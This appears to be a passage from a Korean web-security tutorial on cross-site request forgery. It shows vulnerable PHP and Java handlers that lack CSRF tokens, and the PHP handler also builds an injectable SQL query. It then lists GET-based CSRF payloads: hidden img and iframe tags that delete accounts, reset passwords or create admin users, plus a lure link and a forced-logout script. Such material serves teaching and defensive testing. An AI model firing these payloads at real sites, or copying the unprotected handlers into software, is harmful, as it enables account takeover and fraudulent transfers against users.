 #### 취약한 계정 정보 변경 (PHP):
```php
// 토큰 검증 없이 POST 요청만으로 계정 정보 변경
if ($_POST['action'] == 'change_password') {
    $new_password = $_POST['new_password'];
    $user_id = $_SESSION['user_id'];
    
    $query = "UPDATE users SET password = '$new_password' WHERE id = $user_id";
    mysql_query($query);
    echo "Password changed successfully";
}
```

#### 취약한 송금 기능 (Java):
```java
@PostMapping("/transfer")
public String transferMoney(@RequestParam int toAccount, 
                          @RequestParam double amount, 
                          HttpSession session) {
    int fromAccount = (Integer) session.getAttribute("userId");
    
    // CSRF 토큰 검증 없이 바로 실행
    bankService.transfer(fromAccount, toAccount, amount);
    return "Transfer completed";
}
```

---

## 2. 기본 페이로드

### 2.1. GET 기반 CSRF 공격

#### 2.1.1. 이미지 태그를 이용한 공격
```html
<!-- 계정 삭제 -->
<img src="http://target.com/delete_account?confirm=yes" width="0" height="0">

<!-- 비밀번호 변경 -->
<img src="http://target.com/change_password?new_password=hacked123" style="display:none">

<!-- 관리자 계정 생성 -->
<img src="http://target.com/admin/create_user?username=attacker&password=pass123&role=admin" hidden>

<!-- 설정 변경 -->
<img src="http://target.com/settings?email=attacker@evil.com&notifications=off">
```

#### 2.1.2. 링크를 이용한 공격
```html
<!-- 사용자 클릭 유도 -->
<a href="http://target.com/transfer?to=attacker&amount=1000">
    무료 상품 받기! 클릭하세요!
</a>

<!-- 자동 리다이렉트 -->
<script>
    window.location.href = "http://target.com/logout";
</script>

<!-- iframe을 이용한 숨김 공격 -->
<iframe src="http://target.com/delete_post?id=123" width="0" height="0" style="display:none"></iframe>
```
